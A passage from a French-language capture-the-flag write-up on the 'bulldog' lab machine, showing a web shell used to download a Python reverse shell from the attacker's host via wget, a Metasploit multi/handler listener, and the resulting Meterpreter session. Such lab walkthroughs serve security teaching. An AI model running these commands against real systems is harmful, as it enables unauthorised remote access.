 ![Affichage de l'image WebShell-SimpleHTTPServer.png](images/WebShell-SimpleHTTPServer.png)

De retour sur le Web-Shell, le _reverse shell_ Python est déposé sur le serveur via [wget](https://www.gnu.org/software/wget/).

```console
Command : ls && wget http://192.168.56.101:8000/shell.py
bulldog
db.sqlite3
manage.py

Command : ls
bulldog
db.sqlite3
manage.py
shell.py
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 4444.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole

--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444
```

De retour une nouvelle fois sur le Web-Shell, le fait de lancer la commande ```ls && python shell.py``` amorce la connexion.

```console 
msf exploit(multi/handler) > [*] Sending stage (50248 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:60400) at 2018-01-01 01:01:01 +0100
[*] Sending stage (50248 bytes) to 192.168.56.102

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                      Information       Connection
  --  ----  ----                      -----------       ----------
  1         meterpreter python/linux  django @ bulldog  192.168.56.101:4444 -> 192.168.56.102:60402 (192.168.56.102)
```
